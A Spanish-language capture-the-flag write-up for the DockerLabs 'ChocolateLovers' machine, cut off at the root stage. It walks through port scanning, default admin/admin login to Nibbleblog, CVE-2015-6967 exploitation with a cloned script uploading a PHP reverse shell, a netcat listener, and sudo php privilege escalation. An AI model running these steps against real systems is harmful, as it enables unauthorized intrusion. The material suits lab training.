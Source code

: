 ```yaml
---
title: ChocolateLovers - DockerLabs
published: true
categories: DockerLabs
---
```



| OS     | Dificultad  | Creator           |
| ------ | ----------- | -------------     | 
| Linux  |  Facil      | ElPinguinoDeMario | 


# Reconocimiento

Comenzamos el proceso de reconocimiento identificando los puertos abiertos en el sistema objetivo. 
```shell
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG ports 
```
-  `-p-`: Escanea todos los puertos (1-65535).
- `--open`: Solo muestra los puertos abiertos.
- `-sS`: Realiza un escaneo SYN, que es rápido y discreto.
- `--min-rate=5000`: Envía al menos 5000 paquetes por segundo, acelerando el escaneo.
- `-n`: No realiza resolución DNS.
- `-Pn`: No realiza ping previo para determinar si el host está activo.
- `-vvv`: Muestra resultados detallados y en tiempo real.

![image](https://github.com/user-attachments/assets/1a88e550-b6f6-44b3-a926-36300c052091)


Durante el escaneo, descubrimos que los siguientes puertos están activos:
- `80` (HTTP)

A continuación, evaluamos si los puertos abiertos presentan alguna vulnerabilidad, además de obtener más información sobre los servicios asociados a esos puertos.

```bash
nmap -p 80-sCV 172.17.0.2 -oG targeted
```
![image](https://github.com/user-attachments/assets/4e42ce42-8f15-4ffb-b5f6-7c0b43148f2e)


# Exploración Web

Al acceder a la página web, observamos un panel de apache que estan pordefecto. 

![image](https://github.com/user-attachments/assets/0c8ea714-be14-4a40-ab76-f86d94cf2876)


Utilizamos `Gobuster` para realizar un reconocimiento web y explorar los directorios disponibles en el sitio.
```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,doc,html,txt,img
```
- `gobuster dir` - Indica que estás utilizando la herramienta Gobuster para realizar un escaneo de directorios.
- `-u http://172.17.0.2/` Especifica la URL objetivo que deseas escanear en busca de directorios.
- `-w` Especifica que diccionario queremos usar
- `-x` Para indicar que tipo de extension queremos que nos encuentre

![image](https://github.com/user-attachments/assets/eaadd2b6-622e-4946-b00d-09b348b36ca9)

No encontramos nada por ahi, vamos a darle otro enfoque.

![image](https://github.com/user-attachments/assets/0ea9d0a8-b545-4b7f-844a-89096d3674f1)

En el codigo fuente vemos una ruta un poco extraña, asi que entraremos en ella para ver si encontramos algo.

![image](https://github.com/user-attachments/assets/b4e80b01-4b77-4390-b6a2-cfcc571dfd9e)

Nos redirecciona, y vemos otra ruta la cual llamada `admin.php`.

![image](https://github.com/user-attachments/assets/df5b70eb-2df2-40e7-8d3e-bf69d599fddb)

Al porbar contraseñas por defecto probamos `admin`/`admin` coseguimos acceder.

![image](https://github.com/user-attachments/assets/cd5592ea-31d8-4fd2-834c-f27a794451ea)

Mirando por un poco la pagina podemos ver dentro de la seccion de `settings` al final vemos la version que tienen de ese servicio.

![image](https://github.com/user-attachments/assets/da0af440-72e2-4ad6-9e0f-b7d9a7bc14b7)

Vamos a ver si existe algun exploit de esta version.

![image](https://github.com/user-attachments/assets/a928cf5a-d32c-494a-ba5b-95ef230b1e83)

Existen varios exploits y todos para la version que tenemos nosotros.

![image](https://github.com/user-attachments/assets/1e33f612-aaff-4481-93a1-ba8824a22c11)


## CVE-2015-6967

Usaremos este repositorio de github para explotarlo [CVE-2015-6967](https://github.com/dix0nym/CVE-2015-6967).

![image](https://github.com/user-attachments/assets/ef2fd301-d900-4d9e-a410-9a5757ad042f)

Viendo como funciona el script vemos que funciona a traves de un plugin llamado `my_image`.

![image](https://github.com/user-attachments/assets/bf639fa4-57c7-4d69-bd64-96b417ac3297)

Me da a mi que debriamos de intalarlo ya que el `exploit`, hace uso de ese plugin , pero no veo que nos lo instale.

![image](https://github.com/user-attachments/assets/5614a6c2-1616-4ab4-8ee9-8569d4433bc9)

Ahora vamos a ejecutar el script , para ello antes crearemos nuestra revershell

### Intrusión en la Máquina

Generamos la reverseshell utilizando **Pentest Monkey**, una herramienta popular para crear shells PHP que nos permiten obtener acceso remoto al servidor. La ruta de la reverseshell es la siguiente:

[Reverseshell de Pentest Monkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

Cuando la tengamos solo falta ejecutar el `exploit`, para ello primero descargaremos el repositorio.

```bash
git clone https://github.com/dix0nym/CVE-2015-6967.git
```
![image](https://github.com/user-attachments/assets/961eed03-0f9b-4739-910b-68db1bcb83d0)

Ya que tenemos todo esto vamos ahora a poner el siguiente comando:
```bash
python3 exploit.py --url http://172.17.0.2/nibbleblog/ --username admin --password admin --payload ../shell.php
```
![image](https://github.com/user-attachments/assets/05587267-7e2a-493c-a53d-f8014fa5622f)

Una vez hecho esto si investigamos un poco por la web vemos que en este repositorio estan los plugins http://172.17.0.2/nibbleblog/content/private/plugins/

![image](https://github.com/user-attachments/assets/f5497815-e9bc-4367-9b0f-43be7cc8c2ec)

### Pasos para Cargar la Reverseshell

Nos ponemos a escuchar por netcat en mi caso por el 4444
```bash 
nc -lvnp 4444
```
Luego, accedemos a la ruta de la página web donde hemos cargado la reverseshell, *le damos al archivo llamado `image.php`*:

![image](https://github.com/user-attachments/assets/87fb6f40-fbe1-4394-b1b4-503c15c52bd4)

Y ya tendriamos acceso a la maquina.

![image](https://github.com/user-attachments/assets/63dc6070-4522-4655-9f14-f39f94fa82d5)

## TTY ReverseShell

### Iniciar una sesión de shell interactiva
En nuestra shell básica, ejecutamos el siguiente comando para forzar la creación de una sesión de bash interactiva:
```bash
script /dev/null -c bash
```
### Suspender la shell
Una vez que el comando anterior está en ejecución, utilizamos
```bash
Control+Z
```
para suspender temporalmente nuestra shell.

### Preparar nuestro terminal local:
Antes de volver a nuestra shell, configuramos nuestro terminal local:
```bash
stty raw -echo; fg
```

### Resetear la configuración del terminal
Ahora que tenemos el control de la shell, la reseteamos para asegurar que se comporta correctamente:
```bash
reset
```

### Configura el tipo de terminal:
```bash
xterm
export TERM=xterm
export SHELL=bash
```

# Intrusion

Ya estamos dentro de la máquina. Si ejecutamos el comando `sudo -l`, vemos que podemos ejecutar `php` como `chocolate`. Si no sabemos como abusar de esto, siempre podemos recurrir a [GTFOBins](https://gtfobins.github.io/).

![image](https://github.com/user-attachments/assets/139acb72-7157-4ef0-8099-3a8e6851d7c2)

Para ejecutar una shell como usuario debemos de poner lo siguiente:

```shell
www-data@5a6d69b701d7:/$ CMD="/bin/sh"
www-data@5a6d69b701d7:/$ sudo -u chocolate php -r "system('$CMD');"
```
Si hacesmo un whoami podemos ver que estamos con el usuario chocolate.

![image](https://github.com/user-attachments/assets/f24c07d0-8694-4c64-b01d-caf7347f6b6b)

Vamos a generar una shell interactiva
```bash
script /dev/null -c bash
```
# Accedor Root

Vamos con el final despues de mirar 
